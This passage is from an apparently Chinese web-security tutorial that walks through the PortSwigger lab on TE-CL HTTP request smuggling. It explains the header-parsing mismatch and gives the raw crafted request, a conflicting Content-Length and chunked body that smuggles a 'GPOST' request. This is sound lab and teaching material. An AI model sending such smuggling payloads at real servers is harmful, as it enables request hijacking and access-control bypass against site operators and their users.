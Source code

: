 连续发送几次请求就可以获得该响应：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print](assets/1699409511-d99ee2151755765dd60adff33c50b44f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print")

### [](#24-te-cl)2.4 TE-CL

所谓 `TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理 `Transfer-Encoding` 这一请求头，而后端服务器处理 `Content-Length` 请求头。

Lab地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac041f531eabd0cd804edb62000c0025.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n<br>Content-Length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>12\r\n<br>GPOST / HTTP/1.1\r\n<br>\r\n<br>0\r\n<br>\r\n<br>``` |
